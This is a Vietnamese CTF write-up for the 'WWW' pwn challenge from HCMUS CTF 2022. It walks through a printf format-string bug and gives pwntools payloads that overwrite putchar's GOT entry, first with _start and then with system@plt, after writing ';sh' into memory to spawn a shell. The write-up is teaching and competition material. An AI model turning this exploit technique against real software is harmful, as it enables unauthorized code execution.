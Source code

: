 ## Write-Up WWW (HCMUS CTF 2022 - Pwn)

Đầu tiên checksec nó đã

<img src="https://user-images.githubusercontent.com/54637811/168468917-5db0cab4-fbf0-47b7-ba0e-04ecd1f4dbb4.png" width="470" height="150" />

Bài này thì cho cả source code luôn, lỗi _Format String_ to đùng
```C
puts("Welcome all pwners to the magical guitar!!");
puts("Are you ready to play the best song ever?");
puts("First, tell me your name?");
fgets(buffer, sizeof(buffer), stdin);
printf(buffer);
puts("Great name for an artist!");
```

Cơ mà payload dài có 26.
Kế hoạch như sau:
 + Bước 1:
Ghi đè got của `putchar` bằng địa chỉ hàm `_start`, như thế chúng ta sẽ có vô hạn lần _Format String_
```python
part1 = bin.symbols['_start'] & 0xffff
payload = (f'%{part1}c%12$hn').encode().ljust(16, b'\x00') + \
        p64(bin.got['putchar'])
r.sendlineafter(b'your name?\n', payload)
```

 + Bước 2:
Ghi chuỗi `;sh` vào địa chỉ `SIGNATURE+1`, mục đích là tý đổi got của `putchar` sang `system@plt`, thì lúc đó get shell bằng cách `system("A;sh")`
```python
part1 = int.from_bytes(b';sh', 'little')
payload = (f'%{part1}c%12$n').encode().ljust(16, b'\x00') + p64(signature+1)
r.sendlineafter(b'your name?\n', payload)
```

 + Bước 3: Như đã nói ở trên, thay đổi got của `putchar` sang `system@plt`
```python
payload = b'%12$hhn'.ljust(0x10, b'\x00') + p64(bin.got['putchar'])
r.sendlineafter(b'your name?\n', payload)
```

Chắc vào vòng trong đề Pwn sẽ khó hơn
![image](https://user-images.githubusercontent.com/54637811/168469336-d003e56d-78cd-4d8c-a61b-00f0703f29fa.png)
